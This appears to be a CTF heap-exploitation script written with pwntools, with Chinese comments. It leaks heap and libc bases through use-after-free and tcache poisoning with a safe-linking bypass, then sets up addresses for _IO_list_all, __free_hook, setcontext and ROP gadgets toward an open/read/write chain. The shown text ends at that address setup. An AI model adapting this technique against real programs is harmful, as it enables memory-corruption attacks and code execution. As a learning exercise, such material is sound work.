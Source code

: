 ```python
lg = lambda s            : log.info('\033[1;31;40m %s --&gt; 0x%x \033[0m' % (s, eval(s)))
uu64 = lambda data        : u64(data.ljust(8, b'\x00'))
def menu(choice):
    sla("Choice:",str(choice))
def add(index):
    menu(1)
    sla("Index:",str(index))
def edit(index,context):
    menu(2)
    sla("Index:",str(index))
    sa("Content:",context)
def show(index):
    menu(3)
    sla("Index:",str(index))
def free(index):
    menu(4)
    sla("Index:",str(index))
def dbg():
    gdb.attach(io,'b *$rebase(0x16F0)')
    pause()

#-----------------------leak heapbase--------------------------
add(0)
add(1)
free(0)
show(0)
ru("Content:")
heapbase=u64(io.recv(5).ljust(8,b'\x00'))
heapbase=heapbase&lt;&lt;12
lg("heapbase")

#-----------------------leak libcbase------------------------------
#此处刚好ck1的header，所以edit(0)就可以修改ck1的size
heap=heapbase+0x2b0
xor=heapbase&gt;&gt;12
free(1)
edit(1,p64(xor^heap))
add(1)
add(0)
edit(0,p64(0)+p64(0x421))
'''
这里说明一下这个add的原因,主要是consolidate机制的原因,因为free一个chunk,会先向低地址看能否合并,这里PREV_INUSE=1,直接略过
但是会向高地址看能否合并,会通过其size找到next chunk,这里我要让其PREV_INUSE=1才行,因此有了这个循环
'''
for i in range(0x21):
    add(0)
free(1)
show(1)
ru("Content:")
libcbase=u64(io.recv(6).ljust(8,b'\x00'))-(0x7f514304ec00-0x7f5142e6e000)
lg("libcbase")
io_list_all=libcbase+0x1e15c0
io_str_jumps=libcbase+0x1e2560
free_hook=libcbase+libc.sym['__free_hook']
pcop=libcbase+0x14a0a0
lg("pcop")
setcontext=libcbase+libc.sym['setcontext']
rdi_ret=libcbase+0x0000000000028a55
rsi_ret=libcbase+0x000000000002a4cf
rdx_ret=libcbase+0x00000000000c7f32
open=libcbase+libc.sym['open']
read=libcbase+libc.sym['read']
write=libcbase+libc.sym['write']
```